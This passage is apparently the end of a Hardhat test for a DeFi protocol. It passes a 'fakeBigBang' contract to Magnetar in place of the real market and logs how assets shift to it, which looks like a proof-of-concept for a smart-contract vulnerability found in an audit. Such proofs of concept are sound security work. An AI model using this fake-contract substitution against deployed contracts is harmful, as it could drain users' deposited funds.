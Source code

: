 ```
                magnetar: magnetar.address,
                singularity: wethUsdoSingularity.address,
                // bigBang: wethBigBangMarket.address,
                bigBang: fakeBigBang.address,
            },
            {
                removeAssetFromSGL: true,
                removeShare: fraction.div(2),
                repayAssetOnBB: true,
                repayAmount: await yieldBox.toAmount(
                    usdoAssetId,
                    fraction.div(3),
                    false,
                ),
                removeCollateralFromBB: false,
                collateralShare: 0,
                exitData: {
                    exit: false,
                    oTAPTokenID: 0,
                    target: ethers.constants.AddressZero,
                },
                unlockData: {
                    unlock: false,
                    target: ethers.constants.AddressZero,
                    tokenId: 0,
                },
                assetWithdrawData: {
                    withdraw: false,
                    withdrawAdapterParams: ethers.utils.toUtf8Bytes(''),
                    withdrawLzChainId: 0,
                    withdrawLzFeeAmount: 0,
                    withdrawOnOtherChain: false,
                },
                collateralWithdrawData: {
                    withdraw: false,
                    withdrawAdapterParams: ethers.utils.toUtf8Bytes(''),
                    withdrawLzChainId: 0,
                    withdrawLzFeeAmount: 0,
                    withdrawOnOtherChain: false,
                },
            },
        );
        console.log("\n\n=======================================================================\n\n");
        console.log("asset in YieldBox owned by Magnetar - AFTER: ", await yieldBox.balanceOf(magnetar.address,assetId));
        console.log("asset in YieldBox owned by User - AFTER: ", await yieldBox.balanceOf(deployer.address,assetId));
        console.log("asset in YieldBox owned by FakeBigBang - AFTER: ", await yieldBox.balanceOf(fakeBigBang.address,assetId));

      });
    });

});
```
